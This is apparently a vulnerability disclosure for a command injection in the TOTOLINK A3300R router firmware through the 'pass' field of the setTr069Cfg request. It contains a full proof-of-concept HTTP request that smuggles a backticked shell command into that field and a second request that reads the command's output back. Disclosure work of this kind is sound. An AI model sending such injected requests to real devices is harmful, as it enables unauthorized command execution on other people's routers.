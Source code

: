 #  A3300R setTr069Cfg Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](1.assets/image-20241210182241481.png)

**Description**

The `pass` parameter is vulnerable to command injection when processing the `setTr069Cfg` request.

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 307
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"addEffect":"0","enable":"1","url":"192.168.100.123","user":"123","pass":"123`id>/web/8.txt`","informEnable":"0","interval":"","stunEnable":"1","stunServerAddr":"192.168.100.123","stunPort":"4343","stunMaxAlive":"3600","stunMinAlive":"30","stun_user":"123","stun_pass":"123","topicurl":"setTr069Cfg"}
```

![image-20241211125207661](8.assets/image-20241211125207661.png)

```
GET /8.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241211125222781](8.assets/image-20241211125222781.png)
